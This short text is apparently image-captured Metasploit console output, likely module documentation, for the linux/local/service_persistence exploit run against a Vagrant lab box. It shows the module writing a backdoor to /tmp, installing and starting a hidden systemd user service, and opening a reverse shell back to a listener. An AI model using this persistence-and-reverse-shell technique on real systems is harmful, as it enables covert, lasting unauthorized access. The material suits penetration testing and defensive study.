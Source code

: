        Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  172.28.128.1     yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       4   systemd user


    msf5 exploit(linux/local/service_persistence) > run

    [!] SESSION may not be compatible with this module.
    [*] Started reverse TCP handler on 172.28.128.1:4444
    [*] Writing backdoor to /tmp/PPpCF
    [*] Max line length is 65537
    [*] Writing 94 bytes in 1 chunks of 330 bytes (octal-encoded), using printf
    [*] Creating user service directory
    [*] Writing service: /home/vagrant/.config/systemd/user/OzzdRBC.service
    [*] Max line length is 65537
    [*] Writing 203 bytes in 1 chunks of 778 bytes (octal-encoded), using printf
    [*] Reloading manager configuration
    [*] Enabling service
    [*] Starting service: OzzdRBC
    [*] Command shell session 2 opened (172.28.128.1:4444 -> 172.28.128.3:52564) at 2019-03-06 00:22:40 -0600

    id
    uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
    uname -a
    Linux ubuntu-xenial 4.4.0-141-generic #167-Ubuntu SMP Wed Dec 5 10:40:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

